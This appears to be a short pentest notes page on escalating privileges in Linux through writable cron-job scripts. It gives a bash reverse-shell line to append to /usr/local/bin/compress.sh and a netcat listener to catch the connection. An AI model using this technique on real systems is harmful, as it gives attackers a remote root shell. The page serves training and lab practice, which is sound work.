 # Cron Jobs

Cron jobs are scheduled tasks that are executed automatically at specific intervals on Unix-like operating systems. The name "cron" comes from the Greek word "chronos," meaning time, as these jobs are related to time-based scheduling.

User crontabs are usually located in /var/spool/cron/ or /var/spool/cron/crontabs/

The system-wide crontab is located at /etc/crontab.

{% code overflow="wrap" %}
```bash
cat /etc/crontab
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

```bash
# Check if you can edit the file
ls -l /usr/local/bin/compress.sh

# If you can edit the shell above, add the following reverse shell command.
bash -i >& /dev/tcp/<IP Address>/53 0>&1

# At Kali, set up a netcat listener 
nc -nlvp 53
```

Wait for a next cron job to run. You will see the conneciton.

<figure><img src="../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>
